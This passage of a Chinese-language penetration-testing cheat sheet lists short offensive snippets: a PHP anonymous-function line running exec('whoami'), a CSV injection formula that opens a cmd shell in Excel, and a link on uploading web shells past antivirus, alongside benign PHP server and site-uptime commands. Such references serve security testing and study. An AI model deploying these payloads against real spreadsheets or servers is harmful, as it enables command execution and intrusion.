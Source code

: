 ```text
</form>
</body>
</HTML>
```

[https://hax365.wordpress.com/2015/12/15/easy-trick-to-upload-a-web-shell-and-bypass-av-products/](https://hax365.wordpress.com/2015/12/15/easy-trick-to-upload-a-web-shell-and-bypass-av-products/)

### PHP中的匿名函数RCE

```text
$inputFunc = function() use($a, $b, $c, &$f){echo(exec('whoami'));};
```

### PHP实验

如果您需要测试一些PHP代码，可以使用本机Web服务器来托管它：

```text
php -S 127.0.0.1:80 -t .
```

### PHP交互式SHELL

```text
php -a
```

### CSV注入

在Windows上的Excel中，输入以下内容以获取cmd shell：

```text
=cmd|'cmd'!''
```

exmaple:[https://rhinosecuritylabs.com/azure/cloud-security-risks-part-1-azure-csv-injection-vulnerability/](https://rhinosecuritylabs.com/azure/cloud-security-risks-part-1-azure-csv-injection-vulnerability/)

movie：[https://www.youtube.com/watch?v=SC7AkclnG2g](https://www.youtube.com/watch?v=SC7AkclnG2g)

### 有用的脚本

不断检查网站服务是否关闭：

```text
while true; do /usr/bin/wget "http://[target]/uri/path" --timeout 30 -O - 2>/dev/null | grep "[item on page]" || echo "The site is down"; sleep 10; done
```

### IDORS

[https://www.bugcrowd.com/how-to-find-idor-insecure-direct-object-reference-vulnerabilities-for-large-bounty-rewards/](https://www.bugcrowd.com/how-to-find-idor-insecure-direct-object-reference-vulnerabilities-for-large-bounty-rewards/)
